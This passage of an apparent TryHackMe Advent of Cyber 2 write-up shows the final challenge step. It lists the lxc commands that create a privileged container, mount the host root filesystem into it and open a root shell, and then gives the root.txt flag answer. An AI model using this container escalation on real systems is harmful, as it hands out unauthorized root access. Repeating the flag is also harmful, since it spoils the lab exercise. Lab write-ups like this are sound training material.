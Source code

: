     | dsimage | 4d565cdcbaad | no     | Alpine-LAMP                   | x86_64 | 12.42MB | Dec 25, 2020 at 1:01pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+

    flynn@light-cycle:/tmp$ lxc init dsimage dscontainer -c security.privileged=true
    Creating dscontainer
    flynn@light-cycle:/tmp$ lxc config device add dscontainer dsdevice disk source=/ path=/mnt/root recursive=true
    Device dsdevice added to dscontainer
    flynn@light-cycle:/tmp$ lxc start dscontainer
    flynn@light-cycle:/tmp$ lxc exec dscontainer /bin/sh
    ~ # whoami
    root
    ~ # id
    uid=0(root) gid=0(root)
    ```

---

### What is the value of the root.txt flag?
- **Answer:** THM{FLYNN_LIVES}
- **Steps to Reproduce:** 
```bash
~ # cd /mnt/root/root/
/mnt/root/root # cat root.txt
THM{FLYNN_LIVES}



"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
```
---
[Back to Advent of Cyber 2](/TryHackMe/Advent%20of%20Cyber%202)
